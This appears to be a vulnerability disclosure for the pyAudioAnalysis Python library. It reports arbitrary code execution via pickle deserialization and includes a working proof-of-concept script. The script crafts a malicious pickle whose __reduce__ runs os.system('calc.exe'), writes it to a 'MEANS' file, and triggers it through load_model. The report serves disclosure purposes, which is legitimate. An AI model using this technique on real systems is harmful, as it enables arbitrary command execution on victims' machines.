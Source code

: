# Description

`pyAudioAnalysis` is an open Python library that provides a wide range of audio-related functionalities focusing on feature extraction, classification, segmentation and visualization issues. This package is vulnerable to `Arbitrary Code Execution`.

# Proof of Concept

# Installation
```bash
git clone https://github.com/tyiannak/pyAudioAnalysis.git
cd pyAudioAnalysis
pip install -r ./requirements.txt
pip install -e .
```

# Run exploit.py
```python
#!/usr/bin/env python3

import pickle
import os
from pyAudioAnalysis import audioTrainTest as aT

class EvilPickle(object):
    def __reduce__(self):
        return (os.system, ('calc.exe', ))

payload = pickle.dumps(EvilPickle())

with open('MEANS', 'wb') as file:
    file.write(payload)

aT.load_model('')
```
